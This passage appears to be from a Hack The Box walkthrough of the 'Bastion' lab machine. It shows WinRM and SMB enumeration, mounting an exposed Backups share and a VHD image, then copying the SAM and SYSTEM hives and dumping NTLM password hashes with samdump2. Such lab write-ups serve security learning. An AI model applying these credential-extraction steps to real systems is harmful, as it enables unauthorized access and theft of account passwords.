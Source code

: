 ```shell
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > services 
Services
========

host          port  proto  name   state  info
----          ----  -----  ----   -----  ----
10.10.10.134  5985  tcp    winrm  open   Microsoft-HTTPAPI/2.0 Authentication Methods: ["Negotiate"]
```

### SMBclient
Because it looks like a windows server, it's always good to check any eventual shares that can be accessible.

```shell
# smbclient -L //10.10.10.134
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Here the `Backups` folder looks to be of interest, so we try to mount it and browse around.

```shell
apt install libguestfs-tools cifs-utils

mkdir /mnt/bastion

mount -t cifs //10.10.10.134/Backups /mnt/bastion -o rw
```

in the folder we found a VHD file, which can be mounted and examined, here's how to do it in kali: [link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

```shell
mkdir /mnt/bastionVHD

guestmount --add "/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" --inspector --ro /mnt/bastionVHD -v
```

After browsing around in that share, we found the user: `L4mpje` , and we can also copy the `SAM` and `System` file.

copy it over to Kali in order to get some hashes that we might be able to crack.

```shell
SAM & System file
/mnt/bastionVHD/Windows/System32/config

copy to /root/HTB/bastion/
# samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
